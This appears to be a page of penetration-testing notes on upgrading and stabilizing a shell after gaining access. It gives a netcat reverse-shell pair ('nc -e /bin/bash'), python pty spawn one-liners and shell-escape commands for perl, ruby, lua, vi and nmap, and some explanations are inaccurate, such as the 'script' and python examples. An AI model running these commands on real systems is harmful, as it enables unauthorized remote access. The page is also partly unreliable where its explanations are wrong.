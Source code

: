 # 🧛‍♂️ Stabilize & Elevate a shell

First, it's good to have knowledge about what kind of way you can pop a shell:

{% content-ref url="../../still-sorting-out/documentation/cybersecurity-documentation/exploitation-basics/reverse-shell-and-bind-shell.md" %}
[reverse-shell-and-bind-shell.md](../../still-sorting-out/documentation/cybersecurity-documentation/exploitation-basics/reverse-shell-and-bind-shell.md)
{% endcontent-ref %}

<figure><img src="../../.gitbook/assets/image (792).png" alt=""><figcaption></figcaption></figure>

If you have a nc shell tab auto complete, to up arrow and formatting problems →

**Listener:**

```
nc -nlvp 80
```

**Target:**&#x20;

```
nc -e /bin/bash 127.0.0.1 80
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

First technique with python:

```
python -c 'import pty; pty.spawn("/bin/bash")'
#OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys" %}

this relies on the target system having python

you can utilize other commands:

1.  Python:

    ```python
    echo os.system('/bin/bash')
    ```

    This Python code uses the `os.system()` function to execute `/bin/bash`.
2.  Bourne Shell:

    ```
    /bin/sh -i
    ```

    This command executes the Bourne shell `/bin/sh` in interactive mode (`-i`).
3.  Using script utility:

    ```
    script -qc /bin/bash /dev/null
    ```

    This command uses the `script` utility to run `/bin/bash` with output suppression (`-q`) and input redirection from `/dev/null`.
4.  Perl:

    ```
    perl -e 'exec "/bin/sh";'
    ```

    &#x20;In Perl, this command executes `/bin/sh` using the `exec` function.
5.  Ruby:

    ```
    exec "/bin/sh"
    ```

    This Ruby command uses the `exec` function to execute `/bin/sh`.
6.  Lua:

    ```
    os.execute('/bin/sh')
    ```

    In Lua, this command uses `os.execute()` to execute `/bin/sh`.
7.  Ruby IRB:

    ```
    exec "/bin/sh"
    ```

    This command is executed in the Ruby IRB (Interactive Ruby) shell and uses `exec` to execute `/bin/sh`.
8.  vi:

    ```
    :!bash
    ```

    In the vi editor, this command executes `bash` shell.
9.  vi (setting shell):

    ```
    :set shell=/bin/bash:shell
    ```

    This sets the shell to `/bin/bash` in vi.
10. nmap:

    ```
    !sh
    ```

    In nmap, the `!` is used to execute shell commands. Here it's running `/bin/sh`.

